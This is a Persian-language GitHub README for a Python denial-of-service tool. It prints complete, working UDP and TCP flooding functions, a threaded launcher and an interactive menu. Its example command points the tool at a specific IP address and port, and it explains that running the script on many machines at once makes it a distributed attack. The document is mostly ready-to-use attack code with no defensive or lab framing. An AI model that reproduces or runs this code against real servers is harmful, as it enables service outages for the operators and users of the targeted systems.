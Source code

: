 # DOS Attacker

این یک اسکریپت ساده و پایه ای جهت انجام حملات محروم سازی از سرویس است.
این برنامه از طریق ایجاد سیل هایی از بسته ها و ارسال آن ها به سرور مقصد باعث بالا رفتن لود سرور و در نهایت از کار افتادگی آن می شود.

## نصب ابزار مورد نیاز

این پروژه برای اجرا تنها به پایتون ۳ نیاز دارد. در این پروژه تنها از پکیج های داخلی پایتون استفاده شده است و نیازی به نصب پکیج بیرونی نیست.
لییست پکیج های داخلی به کار رفته در آن به صورت زیر است:
```bash
socket
threading
random
time
argparse
```

## اجرای اسکریپت

برای اجرای اسکریپت کافی است دستور زیر را اجرا کنید:
```bash
python main.py -a 188.121.110.10 -p 8085
```

همچنین برای مشاهده راهنمای برنامه و آرگومان های ورودی می توانید از دستور زیر استفاده کنید:
```bash
python main.py -h
```

برای خاتمه اسکریپت می توانید از سیگنال زیر استفاده کنید:
```bash
ctrl + c
```

آرگومان های ورودی به صورت زیر تعریف شده است:
```bash
usage: main.py [-h] -a ADDRESS [-p PORT] [-c CHOICE] [-m PACKETS] [-t THREADS]

Basic DOS Attacker

optional arguments:
  -h, --help  show this help message and exit
  -a ADDRESS  Hostname or IP address
  -p PORT     Port, default 80
  -c CHOICE   UDP or TCP, default UPD
  -m PACKETS  Num of packets in a socket, default 10
  -t THREADS  Num of threads, default 2
```

همچنین یک منو تعاملی با رابط ترمینال نیز فراهم شده است. برای اجرای آن می توانید از دستور زیر استفاده کنید:
```bash
python menu.py
```

## توضیح اسکریپت

نحوه ایجاد جریان یو دی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def udp_flooder(thread_number, ip, port, packets):
    data = random._urandom(1024)
    s = None
    while True:
        try:
            # UDP = SOCK_DGRAM
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            address = (str(ip), int(port))
            for _ in range(packets):
                s.sendto(data, address)
            s.close()
            print(f"[{thread_number}] {packets} UDP packet sent")
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال یو دی پی است.
ابتدا یک داده با طول 1024 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع یو دی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

نحوه ایجاد جریان تی سی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def tcp_flooder(thread_number, ip, port, packets):
    data = random._urandom(16)
    s = None
    while True:
        try:
            # TCP = SOCK_STREAM
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.send(data)
            for _ in range(packets):
                s.send(data)
            print(f"[{thread_number}] {packets} TCP packet sent")
            s.close()
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
ابتدا یک داده با طول 16 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع تی سی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس اتصال تی سی پی برقرار می شود. مشاهده شد که در حالت تی سی پی نیاز به اتصال بود اما در یو دی پی اینطور نبود.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

تابع زیر با گرفتن نوع اتصال تابع تولید کننده جریان را خروجی می دهد.
از این تابع برای انتخاب جریان ساز درون مدیر رشته های پردازشی استفاده خواهد شد:
```python
def flooder_selector(choice):
    if choice == "UDP":
        return udp_flooder
    elif choice == "TCP":
        return tcp_flooder
    else:
        return None
```

یک تابع برای مدیریت رشته های پردازشی ایجاد شده است:
```python
def thread_manager(threads, flooder, ip, port, packets):
    for i in range(threads):
        th = threading.Thread(target=flooder, daemon=True, args=(i, ip, port, packets))
        th.start()
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال است.
سپس به تعداد رشته های پردازشی مورد نیاز رشته حاوی جریان تولید می شود.
رشته های ساخته شده از نوع دیمن می باشند که در پشت صحنه رشته اصلی اجرا می شود و دارای اولویت کمتری نسبت به آن است. هنگامی که رشته اصلی از بین می رود تمامی رشته های دیمن نیز از بین خواهند رفت.

در نهایت یک تابع اصلی برای تجزیه آرگومان های ورودی و اجرای توابع بالا ایجاد شده است:
```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Basic DOS Attacker')
    parser.add_argument("-a", dest="address", required=True, help="Hostname or IP address")
    parser.add_argument("-p", dest="port", default=80, type=int, help="Port, default 80")
    parser.add_argument("-c", dest="choice", default="UDP", help="UDP or TCP, default UPD")
    parser.add_argument("-m", dest="packets", default=10, type=int, help="Num of packets in a socket, default 10")
    parser.add_argument("-t", dest="threads", default=2, type=int, help="Num of threads, default 2")
    args = parser.parse_args()

    ip = args.address
    port = args.port
    choice = args.choice
    packets = args.packets
    threads = args.threads

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```
در انتهای این تابع یک حلقه بی نهایت ایجاد شده است تا رشته اصلی تمام نشود.
زیرا اگر این رشته تمام شود تمام زیر رشته های دیمن آن نیز خاتمه می یابند.

تابع منو نیز مشابه تابع بالا است اما به صورت تعامل از طریق ترمینال:
```python
if __name__ == '__main__':
    ip = str(input("Hostname or IP address: "))
    port = int(input("Port: "))
    choice = str(input("UDP or TCP: "))
    packets = int(input("Num of packets in a socket: "))
    threads = int(input("Num of threads: "))

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```

## تبدیل به حالت توزیع شده
در صورتی که این اسکریپت به صورت همزمان و با ورودی های یکسان بر روی چندین ماشین اجرا شود تبدیل به یک حمله بسیار ساده توزیع شده محروم سازی از سرویس می شود.

DDoS Attack

## نتایج 
تصویر زیر منوی برنامه و نحوه ورودی گرفتن آن را نشان می دهد:

![menu](docs/menu.jpg)

تصویر زیر نحوه لاگ های حالت یو دی پی به همراه آرگومان های ورودی برنامه را نشان می دهد:

![udp-attack](docs/udp.jpg)

تصویر زیر نحوه لاگ های حالت تی سی پی به همراه آرگومان های ورودی برنامه را نشان می دهد:

![udp-attack](docs/udp.jpg)

در دو تصویر بالا عدد درون براکت بیانگر شماره رشته پردازشی اجرایی می باشد.
